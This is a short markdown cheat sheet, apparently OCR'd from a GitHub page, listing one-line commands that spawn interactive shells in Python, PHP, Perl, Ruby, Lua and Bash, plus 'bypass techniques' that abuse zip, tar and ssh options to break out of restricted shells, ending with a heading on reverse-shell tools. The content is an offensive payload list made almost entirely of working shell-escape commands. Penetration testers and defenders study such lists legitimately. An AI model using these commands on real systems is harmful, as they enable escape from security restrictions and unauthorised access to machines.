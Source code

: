 - **Python**
  ```bash
  python -c 'import os; os.system("/bin/sh")'
  python -c 'import pty; pty.spawn("/bin/bash")'
  ```
- **PHP**
  ```bash
  php -a
  exec("sh -i");
  ```
- **Perl**
  ```bash
  perl -e 'exec "/bin/sh";'
  ```
- **Ruby**
  ```bash
  exec "/bin/sh"
  ```
- **Lua**
  ```bash
  os.execute('/bin/sh')
  ```
- **Bash**
  ```bash
  bash -i
  ```

---

## Advanced Bypass Techniques

- **Zip**
  ```bash
  zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
  ```
- **Tar**
  ```bash
  tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash
  ```
- **SSH**
  ```bash
  ssh user@10.0.0.3 -t "/bin/sh"
  ```

---

## Reverse Shell & Shell Stabilization

### Common Tools
- Netcat  
- Socat  
- Metasploit  

---
